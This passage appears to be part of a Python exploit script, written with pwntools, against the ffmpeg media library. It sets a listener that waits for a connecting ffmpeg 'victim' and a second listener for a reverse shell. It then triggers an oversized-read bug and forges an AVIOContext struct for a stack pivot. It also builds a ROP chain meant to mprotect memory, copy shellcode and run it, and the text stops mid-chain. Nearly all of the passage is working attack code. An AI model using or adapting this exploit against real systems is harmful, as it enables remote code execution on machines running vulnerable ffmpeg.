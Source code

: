 ```python
            yield l[i:i + n]

    ropchain = ""
    for counter, i in enumerate(chunks(data, 8)):
        ropchain += p64(pop_rsi)       # Pop the target address into RSI
        ropchain += p64(address_base + (counter * 8)) # Calculate the target
        ropchain += p64(pop_rdx)       # Pop the 8 bytes of data into RDX
        ropchain += i.ljust(8, "\x90") # Make sure the data is aligned on 8 bytes
        ropchain += p64(write_gadget)  # Trigger the write

    return ropchain


def main():
    # Start a listener and wait for a connection from ffmpeg
    p = listen(12345)

    # Start a second listener for the reverse shell
    rev = listen(port)

    # Wait for connection before sending payload
    log.info("Waiting for the victim...")
    p.wait_for_connection()
    log.success("Victim found!")

    # Initialise the ffmpeg instance and prepare it for the bug
    p.send(headers)

    # Trigger the bug with the overly large read
    p.sendline("-1")
    log.info("Bug triggered. Please wait for two seconds...")
    time.sleep(2)   # The sleep allows for a clean transmission boundary

    payload  = "A" * 0x8060     # Padding to start of AVIOContext struct

    # Setup the fake AVIOContext struct for the pivot into attacker controlled
    # memory

    payload += p64(stack_pivot) # [av_class] Pivot stack into controlled m. (3)
    payload += ("A"*8) * 4      # [buffer, buffer_size, buf_ptr, buf_end]
    payload += p64(pop_rsp)     # [opaque] Value in RDI at (1). (2)

    payload += p64(push_rbx_jmp_rdi) # [read_packet] initial RIP control (1)

    payload += ("X"*8) * 3      # [write_packet, seek, pos]
    payload += "AAAA"           # [must_flush]
    payload += p32(0)           # [eof_reached] Must be zero or read terminates
    payload += "A" * 8          # [write_flag, max_packet_size]
    payload += p64(stack_pivot) # [checksum] One more stack pivot (4)
    payload += ("A"*8) * 11     # Padding to set up the stack for the main ROP

    # The main ROP chain
    # This will do the following things:
    #  1. mprotect(mprotect_segment, 0x500, PROT_READ | PROT_WRITE | PROT_EXEC)
    #  2. copy shellcode into shellcode_segment
    #  3. jump to shellcode

    # Setup mprotect ROP chain
    payload += p64(pop_rdi)          # Pop the first argument into RDI
    payload += p64(mprotect_segment)
    payload += p64(pop_rsi)          # Pop the second argument into RSI
    payload += p64(mprotect_size)
    payload += p64(pop_rdx)          # Pop the third argument into RDX
```